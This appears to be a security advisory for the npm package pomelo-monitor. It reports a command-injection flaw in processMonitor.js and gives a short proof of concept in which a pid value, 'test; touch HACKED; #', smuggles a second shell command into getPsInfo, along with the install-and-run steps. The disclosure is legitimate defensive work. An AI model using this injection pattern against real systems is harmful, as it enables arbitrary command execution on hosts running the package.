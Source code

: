 
The issue occurs because a user input is formatted inside a command that will be executed without any check. The issue arises [here](https://github.com/halfblood369/monitor/blob/master/lib/processMonitor.js#L26).
## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))
1. Create the following PoC file:
```js
// poc.js
var monitor = require('pomelo-monitor');
var param = {pid: 'test; touch HACKED; #', serverId: 'node-1'};
monitor.psmonitor.getPsInfo(param, function(err, data) {});
```
2. Check that there aren't any files called `HACKED`. 
3. Execute the following commands in another terminal:
```bash
npm i pomelo-monitor # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files - now `HACKED` has been created.
## References
- [GitHub Issue](https://github.com/halfblood369/monitor/issues/1)